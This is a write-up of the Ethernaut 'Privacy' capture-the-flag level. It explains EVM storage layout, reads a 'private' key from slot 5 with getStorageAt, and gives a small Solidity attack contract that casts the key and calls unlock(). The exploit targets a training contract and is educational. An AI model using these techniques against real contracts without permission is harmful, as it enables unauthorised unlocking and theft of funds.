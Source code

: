 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel12.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

Challenge's  message:

>The creator of this contract was careful enough to protect the sensitive areas of its storage. Unlock this contract to beat the level.
Things that might help: - Understanding how storage works - Understanding how parameter parsing works - Understanding how casting works

In this write-up, we will focus on Privacy contract. The contract has several state variables defined. At first, there is a **locked** *boolean* variable which equals true. Secondly, we have an **ID** variable that is a public *uint256* variable that stores the timestamp value when the contract is created. Then, there is two *uint8* type variable and one *uint16* type variable. And there is bytes32 type an private array which has 3 array slots. In the constructor, the contract gets same type an array called **_data**.
Finally, there is a **unlock()** function that gets bytes16 type of an argument named **_key** and it checks if this argument same bytes16 type of **data** array's 2nd slot. If the condation is true, the unlock variable will be false.

In this point, we are clearly see that if someone get the value of the data array's 2nd slot, he easily unlocked the challenge. Well, how do we get this value from the contract? Let's move on.

## Smart Contract's Storage

Each smart contract running in the Ethereum Virtual Machine (EVM) maintains state in its own permanent storage. This storage can be thought of as a very large array, initially full of zeros. Each value in the array is 32-bytes wide, and there are 2256 such values. A smart contract can read from or write to a value at any location. That’s the extent of the storage interface.

<p align="center"><img  height="200" src="https://programtheblockchain.com/storage/storage.png"></p>

For example, we have a basic contract called **StorageTest** which helps us to understand how smart contract's storage works.


```solidity
contract StorageTest {
    uint256 a;
    bytes32 b;
}
```

In the above code:
+ ```a``` is stored at **slot 0**. 
+ ```b``` is stored at **slot 1**.

<p align="center"><img height="300" src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Vault/img/storage.png"></p>

More about  [Smart Contract's Storage](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)

## Accessing Private Variabes In Contract's Storage

In solidity, unlike the general idea that someone can't access any private variable from external calls, we can access private variables from contract's storage because of the **_contract's storage open to external calls_**. In this senario, some libraries help us like **_web3_** to attain storage of contracts in blockchain. More about [Accessing Contract's Storage](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925)

When you access storage of a contract with web3 library, you should use like this ```web.eth.getStorageAt(contract address,slot index)``` . More about [getStorageAt()](https://web3js.readthedocs.io/en/v1.2.11/web3-eth.html#getstorageat)


# Subverting

In the overview , we mentioned that if we get the access of data array'slot values, the challenge will be solved. After get access to private data, the only thing we must do is convert to the 2nd slot value into bytes16 format and send to challenge contract's unlock function. Here is our attack contract helps us to solve the challenge.

```solidity
pragma solidity ^0.8.17;

import './Privacy.sol';

contract Attack{

    Privacy target;

    constructor(address _target){
        target = Privacy(_target);
    }

    function attack(bytes32 _key) external{
        bytes16 key = bytes16(_key);
        target.unlock(key);
    }

}
```

Shortly, our attack contract gets an instance of target contract in constructor. Later, in the attack function, it gets an bytes32 type an argument called **_key** which is retrieve 2nd slots of data array from the target contract and it **converts the argument into bytes16 format**. Finally, it calls the unclock() function with the new key. Let's hack it.

First of all check the locked variable's value.

```shell
await contract.locked()
true
```

Then, retrieve the data from the contract storage even if it was marked as private. There is a small but important point that the state variables were defined differently. This type of definition affects the storage layout location of the variables. In this challenge, the storage location of variables is just like this because of the sizes of the variables in one storage slot:

- Slot 0: *locked*
- Slot 1: *ID*
- Slot 2: *flattening*,*denomination*,*awkwardness*
- Slot 3: *data[0]*
- Slot 4: *data[1]*
- Slot 5: *data[2]* 

I strongly recomended [this article](https://docs.alchemy.com/docs/smart-contract-storage-layout) to understand this case better. To get back our business, we should aim retrieve the 5th slot and send it to the attack function. Time to unlock!

```shell
await web3.eth.getStorageAt("0x9723e4E6B0F5A32329253F55a80f29fFf3ae73d5", 5)
'0x7ec6a7b3fd05ab43951c4d7f2ed28ebdd4e5d435279430a3fd6b0f1df716e32d'
```

<p align="center"><img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Privacy/src/attack.png"></p>

Lastly, check the locked variable's value. Here we go!

```shell
await contract.locked()
false
```


Ethernaut's message:

> Nothing in the ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Web3's getStorageAt(...) can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

**_by wasny0ps_**


